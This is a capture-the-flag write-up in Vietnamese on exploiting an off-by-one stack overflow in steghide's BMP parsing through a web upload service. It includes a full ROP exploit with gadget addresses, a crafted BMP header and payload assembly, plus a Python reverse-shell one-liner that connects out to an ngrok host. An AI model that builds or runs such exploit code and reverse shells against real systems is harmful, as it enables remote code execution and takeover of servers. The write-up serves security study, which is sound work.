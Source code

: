 **1. Tìm lỗi**
  - Đây là chall dùng 1 tool thực tế có tên là `steghide` nên việc tìm lỗi thông qua `source` rất khó. Tuy nhiên chall này đã cung cấp cho ta 2 file `binary` trong đó có một file có lỗi và một file đã vá, ta chỉ cần chỉ ra điểm khác nhau là có thể dễ dàng tìm thấy được lỗi.
  - A Hy đã chỉ mình dùng tool `Bindiff` để so sánh, và dễ dàng chỉ ra điểm khác nhau ở hàm `BmpFile::readdata()`
  - ![image](https://user-images.githubusercontent.com/113702087/230003701-123b757e-92a1-4b1b-a401-6d46e03ac9e7.png)
  - Khi độ chính xác của hàm này ở 2 file là `99%`.
  - ![image](https://user-images.githubusercontent.com/113702087/230004061-c3aa1828-cf77-48d7-922e-fe84e25583e8.png)
  - Dễ dàng thấy điểm khác nhau tại vòng `for` khi điều kiện lặp ở file lỗi là `<= height` trong khi ở file vá là `< height`. Điều này có thể dẫn đến các lỗi như `overflow`, `out of bound`, ...
  - ![image](https://user-images.githubusercontent.com/113702087/230006389-e6491c26-0bc8-490d-971b-7c86ec58d04c.png)
  - Trong hàm này nó sẽ đọc dữ liệu từ `file` lượng byte tối đa đọc được phụ thuộc vào `height` và `linelength`, tổng lượng byte đọc được sẽ lưu vào `numread` tuy nhiên do `<=` nên `numread` sẽ vượt quá `height*linelength`. Mình sẽ dùng `x` của `ida` để xem `numread` được sử dụng ở đâu.
  - Cho ai thắc mắc thì `height` và `linelength` là chiều rộng và chiều dài của file và nó được đọc từ trường `header` của file thông qua hàm `BmpFile::readheaders()` vậy nên thêm bao nhiêu dữ liệu vào file (miễn không đụng vào header file) thì giá trị của chúng luôn không đổi.
  - ![image](https://user-images.githubusercontent.com/113702087/230009548-865d05a9-9daa-4e8b-9016-78001dc91068.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230009377-c6ed3fd2-5264-40b9-a966-305c34faf26f.png)
  - Sau khi `readdata` nó sẽ thực hiện `getdata` nơi sẽ gọi `getheaders`. Trong `getheaders` nó thực hiện cấp phát bằng `alloca` trên stack bằng `height*linelength` nhưng nó lại dùng `memcpy(&v3, a1, (unsigned int)numread)` để copy dữ liệu đọc được từ file vào stack với size là `numread`, như đã nói ở trên `numread` có thể > `height*linelength` do đó tại đây nó sẽ gây lỗi `overflow`.
  - Về phía `server` là một `website`
  - ![image](https://user-images.githubusercontent.com/113702087/230004814-79b696e8-b4fb-479b-af81-674edb6c0d2f.png)
  - nó nhận đầu vào là một `file` và `pass` của file này rồi thực thi câu lệnh `subprocess.run(['steghide', 'extract', '-sf', stegfile_name, '-p', request.form['passphrase'], '-xf', outfile_name], check=True, timeout=60)`
  - Có vẻ như `BmpFile::readdata()` sẽ được thực hiện khi ta `extract` một file `bmp` nên ta sẽ dùng `bmp` để gửi `payload`.

**2. Ý tưởng**
  - ![image](https://user-images.githubusercontent.com/113702087/230013813-388a983e-9275-4395-8656-8989c86eae87.png)
  - Ta có thể `overwrite` saverip với 126 byte khá là ít, tuy nhiên đủ để ta tạo shell nhưng việc tạo shell dường như là vô nghĩa khi nó không có `netcat`. Vậy nên ta sẽ chuyển sang hướng `reverse shell` để tạo `shell` về máy mình. Đê làm được điều này ta cần rất nhiều gadget do đó ta sẽ thay đổi rsp thông qua rbp với một địa chỉ ghi được đã biết.
  - Do không thể sử dụng các hàm input vì không có `netcat` nên ta sẽ sử dụng input có sẵn từ file để nạp `gadget` vào một địa chỉ trên binary và trỏ rsp vào đây. Ta có thể lợi dụng `memcpy` lần nữa để đưa các `payload` từ file vào địa chỉ mong muốn do ta có thể thay đổi `rdi` thông qua `pop rdi ; ret`.
  - Trước khi `ret` các thanh ghi có giá trị như sau:
  - ![image](https://user-images.githubusercontent.com/113702087/230015037-8418ddf8-ae2e-4d3b-81f6-eaaa5f467e63.png)
  - Dường như sau khi `memcpy` thì `rsi` và `rdi` đã thay đổi chỉ còn lại `rdx`. Tuy nhiên `rdi` mới này lại cách `rsi` cũ `0x58` byte vậy nên có thể coi nó là `rsi` cũ, việc cần làm là chuyển `mov rsi, rdi ;  pop rdi ; ret ; memcpy` thì ta có thể thực hiện chuyển `payload` sang địa chỉ tùy ý. Nhưng gần như không có gadget nào thỏa mãn điều này. Các gadget control `rsi` dường như sẽ khiến chương trình `exit`.
  -  Sau một lúc suy ngẫm thì mình thấy được cái này.
  -  ![image](https://user-images.githubusercontent.com/113702087/230018211-eb4539b8-9a4f-4513-91c8-98d3258c69c4.png)
  -  ![image](https://user-images.githubusercontent.com/113702087/230018590-232045e1-e886-4384-a83b-e5b49b3125d2.png)
  - Một phần của hàm `getheaders()`, điều này có nghĩa là ta sẽ thay đổi được `[rbp+dest]` và `[rbp+src]`, ban đầu ta sẽ thay đổi `rbp` rồi đưa `rdi` vào `[rbp+src]`, như thế ta có thể copy `payload` vào địa chỉ tùy ý rồi.
  - ![image](https://user-images.githubusercontent.com/113702087/230021665-e1162f76-40f8-443a-97a2-40e31c4f0816.png)
  - Việc bây giờ ta chỉ tính `offset` và thực thi `reverse shell`
  - Mình sẽ chọn `python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"0.tcp.ap.ngrok.io\",13577));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'` để làm `reverse shell`, rồi thực thi `system(reverseshell)`

**3. Khai thác**
  ```
  pop_rax_rbx_rbp = 0x0000000000414d29
pop_rsi = 0x0000000000417f3e
pop_rdx = 0x000000000042cd0c
pop_rdi = 0x0000000000450e8b
add_irbp_ebx = 0x0000000000404a38
pop_rbp = 0x0000000000404a39
leave_ret = 0x000000000040a392
syscall = 0x00000000004066b3
addr = 0x48a930
movinrbp_rdi = 0x00000000004220e0
  ```
  - setup một số `gadget` có ích
  ```
  headerfile = b'BMzL\x02\x00\x00\x00\x00\x00>\x00\x00\x00(\x00\x00\x00\xd3\x05\x00\x00!\x03\x00\x00\x01\x00\x01\x00\x00\x00\x00\x00<L\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\x00'
shellrv = f'python3 -c \x27import os,pty,socket;s=socket.socket();s.connect((\x22{ip}\x22,{port}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\x22sh\x22)\x27\x00'
shell = headerfile + b'a'*(len(shellrv)-10 - 8)
  shell += flat(
    pop_rax_rbx_rbp+1, 0x13e10, exe.got['gettext'] + 0x3d,
    add_irbp_ebx,
    pop_rdi, 0x48abd4,
    exe.sym['gettext'],
    word_size=64, sign = True
)
  ```
  - Đầu tiên ta sẽ tạo một `headerfile` và `reverse_shell`, căn chỉnh thêm `offset` rồi đưa các `gadget` vào các `gadget` này sẽ được thực thi sau khi thay đổi được rsp
  - `gadget` trên sẽ thay đổi `gettext got` thành `system` và thực thi `reverse shell`
  ```
  shell += shellrv.encode()*29
shell = shell.ljust(0x24c71, b'\xff') + 0x3e*b'a'
  ```
  - Tiếp đến ta sẽ đưa `reverse shell` vào và bù thêm một phần để `overflow` đoạn `memcpy`.
  ```
  rop = flat(
    addr,
    movinrbp_rdi, addr + 8,
    pop_rdi, addr,
    movinrbp_rdi, addr + 0x20,
    pop_rdx, 0x6d0,
    0x41B355,
    pop_rbp, addr,
    leave_ret,
    word_size=64, sign = True
)

shell += rop
  ```
  - ROP này sẽ được chèn vào khi `overflow` nhằm thực hiện lại `memcpy` như đã nói ở trên và thay đổi `rsp`.

**4. Demo trên docker**
  - Mình test trên `docker` được nhưng `server` thì lỗi nên sẽ làm trên `docker`.
  - ![image](https://user-images.githubusercontent.com/113702087/230026857-978c0b29-a759-4c2b-a375-3aa14e069da8.png)
  - Ta tạo host thông qua `ngrok` và `listen` tại port `8080`. Rồi tạo file ảnh với `script` trên theo `ip` và `port`
  - Ta sẽ gửi file ảnh lên `web` và chờ kết quả
  - ![image](https://user-images.githubusercontent.com/113702087/230027418-d7f1184e-a457-4d42-97e4-ae59028f615f.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230027932-bc1f95db-6601-45f8-b848-4a508c11b3ba.png)
  - Lưu ý `script` này chỉ sài với `ngrok` muốn sài `ip` với `port` khác phải tự custom
